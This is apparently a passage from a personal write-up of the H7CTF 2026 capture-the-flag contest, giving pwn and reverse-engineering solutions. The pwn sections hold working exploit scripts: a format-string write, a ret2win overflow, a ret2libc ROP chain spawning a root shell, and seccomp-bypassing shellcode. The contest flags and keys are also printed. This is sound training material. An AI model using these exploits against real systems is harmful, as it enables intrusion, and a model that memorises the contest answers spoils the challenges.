payload = b"AA%7$nAB" + p64(IS_ADMIN)   # prints 2 chars -> is_admin = 2
p.sendline(payload)

p.recvuntil(b"exit\n"); p.sendline(b"2")
print(p.recvall(timeout=5).decode())
```

The prefix must be **exactly 8 bytes** so the appended address lands on a qword boundary; an off-by-one (`A%7$nAB`) misaligns the pointer and crashes.

```text
[manifest] clearance code: H7CTF{32c1d8cc-8df9-4a60-b266-0d801143764e}
```

### Remediation
Never pass user input as a format string — use `printf("%s", buf)`.

**Flag:** `H7CTF{32c1d8cc-8df9-4a60-b266-0d801143764e}`

---

## Papers Please
> **Tags:** Stack Overflow, ret2win

### About the Challenge
A checkpoint terminal asks for your name, logs it, and either denies you or grants access.

### Solution Walkthrough

#### 1. Reversing
`checkpoint()` uses a `0x40`-byte stack buffer but reads `0x100` bytes:

```asm
4012ac: sub  rsp,0x40
4012ce: lea  rax,[rbp-0x40]     ; buf[0x40]
4012d2: mov  edx,0x100          ; read count -- overflow
4012df: call read@plt
```

The binary is non-PIE and **not stripped**, and it conveniently ships a win function:

```text
0000000000401216 T grant_access   ; opens /flag and prints "ACCESS GRANTED: %s"
```

#### 2. Exploit (offset 72 = 0x40 + 8)

```python
from pwn import *

offset = 72
win    = p64(0x401216)

p = remote("pwn.h7tex.com", 41944)
p.sendlineafter(b'State your name for the log:\n', b'A' * offset + win)
p.interactive()
```



```text
ACCESS GRANTED: H7CTF{5def887f-5097-42f5-a732-cae63a9129ea}
```

**Flag:** `H7CTF{5def887f-5097-42f5-a732-cae63a9129ea}`

---

## Parcel Bomb
> **Tags:** ret2libc, ROP, GOT Leak

### About the Challenge
> Sparrow Freight dispatch takes your waybill number, logs it, and waves you off... No spare key was left out this time, so bring your own way in.

`dispatch` is non-PIE, no canary, Partial RELRO, and **has no `win()` and no `system()` call**. That "bring your own way in" phrasing points to **ret2libc**.

### Solution Walkthrough

#### 1. The overflow
`vuln()` reads `0x200` bytes into a `0x40`-byte buffer → **offset 72**. Handy gadgets/symbols are even named:

```text
0000000000401176 T pop_rdi_ret
0000000000401178 T vuln
```

#### 2. Two-stage ROP

**Stage 1 — leak a libc pointer and loop back:**

```text
[ 'A'*72 ] [ pop rdi ; ret ] [ puts@got ] [ puts@plt ] [ vuln ]
```

`puts(puts@got)` leaks the resolved `puts` address; subtracting its offset gives the libc base. Returning to `vuln` keeps one connection alive.

**Stage 2 — `system("/bin/sh")`:**

```text
[ 'A'*72 ] [ ret ] [ pop rdi ; ret ] [ libc_base + "/bin/sh" ] [ libc_base + system ]
```

The extra `ret` fixes 16-byte stack alignment (`system` uses `movaps`).

```python
io.send(flat(b"A"*72, POP_RDI, PUTS_GOT, PUTS_PLT, VULN))
io.recvuntil(b"waybill logged.\n")
leak = u64(io.recvn(6).ljust(8, b"\x00"))
libc.address = leak - libc.symbols["puts"]

io.send(flat(b"A"*72, RET, POP_RDI,
             libc.address + next(libc.search(b"/bin/sh")),
             libc.address + libc.symbols["system"]))
io.sendline(b"cat /flag; id")
```

```text
[+] libc base : 0x7f419d800000
H7CTF{d3bb522e-618e-456a-a93c-6ba3a210036d}
uid=0(root) gid=0(root) groups=0(root)
```

**Flag:** `H7CTF{d3bb522e-618e-456a-a93c-6ba3a210036d}`

---

## Safe Space
> **Tags:** Shellcode, seccomp Bypass, RWX Page

### About the Challenge
> The vault throws its doors wide and lets you set up shop inside. There is only one move it will not tolerate...

`vault` maps an **RWX page**, reads up to 4096 bytes of your shellcode into it, installs a seccomp filter, then jumps to your code.

### Solution Walkthrough

#### 1. Reverse `lockdown`
The default seccomp action is `SECCOMP_RET_KILL_PROCESS`, with a strict whitelist:

```text
open, openat, read, write, close, lseek, fstat, newfstatat,
mmap, munmap, brk, rt_sigreturn, exit, exit_group
```

**`execve` is not whitelisted** — the "one move it will not tolerate" is the usual `execve("/bin/sh", ...)` you had planned. Any non-whitelisted syscall kills the process instantly.

#### 2. The long way around
`open`/`read`/`write` *are* allowed on purpose — read the flag directly instead of spawning a shell:

```asm
lea     rdi, [rip + path]     ; "/flag"
xor     esi, esi
xor     edx, edx
mov     eax, 2                ; SYS_open
syscall
mov     edi, eax
xor     eax, eax              ; SYS_read
lea     rsi, [rip + buf]
mov     edx, 0x400
syscall
mov     edx, eax
mov     eax, 1                ; SYS_write
mov     edi, 1
syscall
```

Driver (note the `shutdown("send")` to signal EOF):

```python
io = remote("pwn.h7tex.com", 42630)
io.recvuntil(b"EOF:")
io.send(shellcode)
io.shutdown("send")
print(io.recvall(timeout=8))
```

```text
H7CTF{839fdc98-ae79-4184-87c8-cccb0d1fd8d7}
```

### Takeaways
- RWX shellcode isn't a free win when a syscall filter is installed *after* upload but *before* execution — always reverse the seccomp policy.
- Whitelists reveal the intended primitive: here `open`/`read`/`write` are the "long way around" to exfiltrate a file without `execve`.

**Flag:** `H7CTF{839fdc98-ae79-4184-87c8-cccb0d1fd8d7}`

---

# 7. Reverse Engineering

## Constraint Yourself
> **Tags:** Constraint Solving (z3), MD5, AES-CBC

### About the Challenge
`cipherlock` is a stripped PIE binary linking OpenSSL 3. It prompts `key:`, checks a 16-byte key, and on success prints `cipherlock: open. <flag>`. The prompt *"has to satisfy it on every count"* hints at solving equations rather than brute force.

### Solution Walkthrough

#### 1. Three constraints over the 16 key bytes

```c
k[(i + 3) & 15] ^ k[i] == A[i]                      // i = 0..15
(k[2*i] * k[2*i + 1]) & 0xff == B[i]                // i = 0..7  (byte multiply)
(rol8(k[i], 3) + k[(i + 5) & 15]) & 0xff == C[i]    // i = 0..15
```

There is no partial credit — all 40 comparisons must pass, so brute force is hopeless.

#### 2. Model it with 8-bit bit-vectors

```python
from z3 import BitVec, Solver, sat

k = [BitVec(f"k{i}", 8) for i in range(16)]
s = Solver()
for i in range(16):
    s.add(k[(i + 3) & 15] ^ k[i] == A[i])
for i in range(8):
    s.add(k[2*i] * k[2*i + 1] == B[i])          # bit-vector mul auto-wraps mod 256
for i in range(16):
    rot = ((k[i] << 3) | (k[i] >> 5)) & 0xff
    s.add(rot + k[(i + 5) & 15] == C[i])

assert s.check() == sat
key = bytes(s.model()[b].as_long() for b in k)
```

Using bit-vectors of width 8 automatically captures every `& 0xff`, the byte multiply, and the rotate. The unique solution nods to the theme:

```text
key = b'S4T-C0NSTR4INT!7'
```

#### 3. Recover the flag
The binary does `AES-128-CBC-decrypt(ct, key = MD5(key), IV = 0)`:

```bash
$ echo -n "S4T-C0NSTR4INT!7" | openssl enc -d -aes-128-cbc -nopad \
    -K 1cb0462d48162b777e20b6882e4cfed9 \
    -iv 00000000000000000000000000000000
H7CTF{b7edd2b4-a6be-4a9a-87b5-aa96fc87d06e}
```

**Flag:** `H7CTF{b7edd2b4-a6be-4a9a-87b5-aa96fc87d06e}`

---

## Lockstep
> **Tags:** Linear Algebra over Z/256, GF(2) Rank, AES-CBC

### About the Challenge
`interlock` reads a 16-byte key, validates it, then uses `MD5(key)` as an AES key to decrypt and print a token. The hint *"these tumblers were never going to fall one at a time"* signals a **coupled** check — solve the system, don't brute-force byte-by-byte.

### Solution Walkthrough

#### 1. The linear system
The check loop computes, for each row `i`:

$$b_i \equiv \sum_{j=0}^{15} A_{ij}\, x_j \pmod{256}$$

This is a 16×16 linear system over the ring **Z/256**. `A` has **full rank mod 2** (rank 16), so the solution is unique.

#### 2. Gaussian elimination over Z/256
Every odd number is a unit mod 256 (`pow(a, -1, 256)`):

```python
def solve_mod256(A, b, n):
    M = [[A[i][j] % 256 for j in range(n)] + [b[i] % 256] for i in range(n)]
    row = 0
    for col in range(n):
        piv = next(r for r in range(row, n) if M[r][col] & 1)   # odd pivot = unit
        M[row], M[piv] = M[piv], M[row]
        inv = pow(M[row][col], -1, 256)
        M[row] = [(v * inv) % 256 for v in M[row]]
        for r in range(n):
            if r != row and M[r][col]:
                f = M[r][col]
                M[r] = [(a - f * c) % 256 for a, c in zip(M[r], M[row])]
        row += 1
    return [M[i][n] for i in range(n)]
```

The unique key is `UNLOCK-SEQ-7Y2AB`.

#### 3. Stage 2 — the token

```text
plaintext = AES-128-CBC-decrypt(ciphertext, key = MD5("UNLOCK-SEQ-7Y2AB"), IV = 0^16)
```

```text
H7CTF{b169235b-bed2-48bd-aaf6-a76afd77fff2}
```

**Flag:** `H7CTF{b169235b-bed2-48bd-aaf6-a76afd77fff2}`

---

## Modem Operandi
> **Tags:** Bytecode VM, Per-byte Constraints, AES-CBC

### About the Challenge
`warden` (stripped PIE) is a licence checker for a satellite modem. A 16-character key is validated by a **state-machine / bytecode interpreter**, after which `MD5(key)` decrypts the provisioning string.

### Solution Walkthrough

The validator is an opcode VM with a 192-byte program:

| Opcode | Operation |
| :--- | :--- |
| `0x01` | COPY — copy `key[operand]` to buffer |
| `0x02` | PUSH — push constant |
| `0x03` | XOR — pop two, push `a ^ b` |
| `0x04` | ADD — pop two, push `(a + b) & 0xff` |
| `0x05` | ROL — rotate left by `operand` bits |
| `0x06` | CMP — compare against `operand` (all must match) |

Each key byte is used exactly once and validated by exactly one `CMP`, so each byte can be solved independently by trying all 256 values. The constraints resolve to:

| 0 | 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 | 11 | 12 | 13 | 14 | 15 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| H | 7 | X | - | 9 | F | 2 | A | - | C | O | R | E | K | E | Y |

**Key:** `H7X-9F2A-COREKEY`. Then:

```python
from Crypto.Cipher import AES
import hashlib
key = b"H7X-9F2A-COREKEY"
ciphertext = bytes.fromhex("ab7acb5ab6fb1f2a8242ecc6266545035d16df91da6abb1004cc198d0af8662b")
pt = AES.new(hashlib.md5(key).digest(), AES.MODE_CBC, b"\x00"*16).decrypt(ciphertext)
print(pt[:-pt[-1]].decode())
```

**Flag:** `H7CTF{476f0831f4c4eec5b790}`

---

## Rust in Peace
> **Tags:** Rust, Stripped Binary, Reversible Transform

### About the Challenge
`ferric` is a stripped PIE Rust binary ("ferric" = iron). It prompts `license:`, reads a line from stdin, and either unlocks a token or prints `invalid license`.

### Solution Walkthrough

#### 1. Finding `main`
Rust bootstraps the real body through `std::rt::lang_start`; the libc stub passes its address (`0x157e0`), which is where the validator lives.

#### 2. The per-byte transform
For each byte `i` of a **16-byte** input:

```c
c = rotl8( input[i] ^ key1[i], key2[i] & 7 ) + key3[i]   // 8-bit add, wraps
assert c == target[i];
```

Four adjacent 16-byte tables live in `.rodata` (`key1` XOR, `key2` rotate, `key3` add, `target`).

#### 3. Invert it
Every operation is reversible, so compute the licence instead of guessing:

```
roller = (target[i] - key3[i]) mod 256
raw    = rotr8(roller, key2[i] & 7)
input  = raw XOR key1[i]
```

```text
license (ascii): FERRIC-RUST-KEY1
$ printf 'FERRIC-RUST-KEY1\n' | ./ferric
license: unlocked: H7CTF{3f7b3f564a5524ce863d}
```

**Flag:** `H7CTF{3f7b3f564a5524ce863d}`

---

## Toll Story
> **Tags:** Go, `.gopclntab`, Invertible Word Check, AES-256-CBC

### About the Challenge
`tollgate` is a **1.45 MB stripped, statically linked Go** binary (Go 1.23.12) — the admin lane of an internal API gateway. A correct token yields a "cluster bootstrap secret."

### Solution Walkthrough

#### 1. Stripped ≠ unreadable
Go keeps function names in `.gopclntab`, so [GoReSym](https://github.com/mandiant/GoReSym) recovers the two user functions:

```text
0x498760  main.main    -> reads + validates the token
0x498600  main.unlock  -> derives the AES key, decrypts the secret
```

#### 2. The token gate
For each 32-bit word `i`:

```
W  = bswap32(word[i])                       # big-endian view
t  = rol32(W ^ T3[i], T1[i])
ok = ((t + T4[i]) & 0xffffffff) == T2[i]
```

Every operation is invertible, so the token is **computed**, not brute-forced:

```
W = ror32((T2[i] - T4[i]) & 0xffffffff, T1[i]) ^ T3[i]
```

Writing `W` back as big-endian bytes yields the token **`H7-T0LLG4TE-KEY1`**.

#### 3. From token to secret
`main.unlock` derives `key = SHA-256(token)` (AES-256), decrypts an embedded 48-byte ciphertext with a **zero IV** and PKCS#7 padding:

```bash
$ echo -n "H7-T0LLG4TE-KEY1" | ./tollgate
admin token: access granted. bootstrap secret: H7CTF{323dbad5-e8e7-43ba-b5a7-99c524e08231}
```

### Takeaways
- For stripped Go binaries, `.gopclntab` preserves function names and addresses.
- A reversible "hash" (xor/rotate/add) is really just a bijection — compute the input.

**Flag:** `H7CTF{323dbad5-e8e7-43ba-b5a7-99c524e08231}`

---

# Conclusion & Source Files

H7CTF 2026 was a broad and well-crafted event. The highlights for me were the recurring **"reversible transform + AES"** theme across the Reverse Engineering category, the tight **seccomp whitelist bypass** in Safe Space, and the **RSA shared-prime** attack in Shared Blood.

All challenge files, scripts, and captures used in this writeup are available on my GitHub repository:
👉 [**Jenusdy/ctf-writeups (2026/H7CTF 2026)**](https://github.com/Jenusdy/ctf-writeups/tree/main/2026/H7CTF%202026)

Thanks for reading, and see you at the next CTF!
